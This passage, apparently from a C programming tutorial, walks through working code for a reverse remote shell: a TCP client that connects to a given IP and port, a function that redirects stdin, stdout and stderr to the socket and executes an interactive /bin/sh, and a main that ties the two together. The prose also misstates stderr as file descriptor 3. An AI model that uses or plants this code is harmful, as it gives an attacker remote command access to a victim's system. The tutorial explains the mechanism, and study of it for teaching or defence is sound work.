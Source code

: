 ```C
  if (connect (s, (struct sockaddr *) &serv, sizeof(serv)) < 0)
    {
      perror("connect:");
      exit (EXIT_FAILURE);
    }

  return s;
}
```

The function receives as parameters an IP address to connect to and a port. Then it creates a TCP socket (SOCK_STREAM) and fills in the data for connecting. The connection is effectively established after a successful execution of connect. In case of any error (creating the socket or connection) we just stop the application.

This function will allow us to implement a reverse remote shell. Client continues as:

```C
int
start_shell (int s)
{
  char *name[3] ;

  dup2 (s, 0);
  dup2 (s, 1);
  dup2 (s, 2);

  name[0] = "/bin/sh";
  name[1] = "-i";
  name[2] = NULL;
  execv (name[0], name );
  exit (1);

  return 0;
}
```

the function `start_shell` is pretty simple. It makes use of two system calls dup2 and execv. The first one duplicates a given file descriptor. In this case, the three calls at the beginning of the function, assigns the file descriptor received as parameter to the Standard Input (file descriptor 0), Standard Output (file descriptor 1) and Standard Error (file descriptor 3).

So, if the file descriptor we pass as a parameter is one of the sockets created with our previous client and server functions, we are effectively sending and receiving data through the network every time we write data to the console and we read data from stdin.

Now we just execute a shell with the -i flag (interactive mode). The execv system call will substitute the current process (whose stdin,stdout and stderr are associated to a network connection) by the one passed as parameter.

And finally, main, self-explanatory:

```C
int
main (int argc, char *argv[])
{
  /* FIXME: Check command-line arguments */
  start_shell (client_init (argv[1], atoi(argv[2])));
  return 0;
}
```
